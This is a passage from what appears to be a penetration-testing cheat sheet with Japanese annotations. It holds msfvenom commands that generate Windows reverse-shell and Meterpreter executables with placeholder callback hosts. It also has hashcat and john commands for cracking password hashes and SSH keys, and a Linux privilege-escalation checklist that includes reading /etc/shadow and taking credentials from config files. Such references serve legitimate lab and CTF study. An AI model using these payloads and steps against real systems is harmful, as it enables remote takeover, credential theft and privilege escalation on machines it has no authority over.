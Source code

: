 Windows

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 32bit-meterpreter-sataged
msfvenom -p windows/meterpreter_reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 32bit-meterpreter-unsataged
msfvenom -p windows/shell/reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 32bit-sataged
msfvenom -p windows/shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 32bit-unsataged
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 64bit-meterpreter-sataged
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 64bit-meterpreter-unsataged
msfvenom -p windows/x64/shell/reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 64bit-sataged
msfvenom -p windows/x64/shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 64bit-unsataged
```

### hash crack

#### hashcat

```
hashcat -m [type] hash /usr/share/wordlist/rockyou.txt // modeに関しては要確認 hashcat formatで検索
```

#### john

```
zip2john backup.zip > hash
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlist/rockyou.txt hash
```

# Privilege Escalation

## チェックリスト

### Linux

- [ ] whoami
- [ ] ls -al /home
- [ ] ls -al /etc/passwd, ls -al /etc/shadow
- [ ] cat /etc/passwd
- [ ] shell upgrade
- [ ] ls -al /opt,/tmp,/var/www/html
- [ ] config.php 等設定ファイルの認証情報奪取
- [ ] find コマンドで Web サーバーで使われている拡張子が置かれているディレクトリを探す
- [ ] linpeas
- [ ] les
- [ ] sudo -l
- [ ] suid
- [ ] pspy
- [ ] ls -al /etc/cron
- [ ] uname -a, cat /etc/issue
- [ ] netstat
- [ ] ps -aux
- [ ] kernel exploit
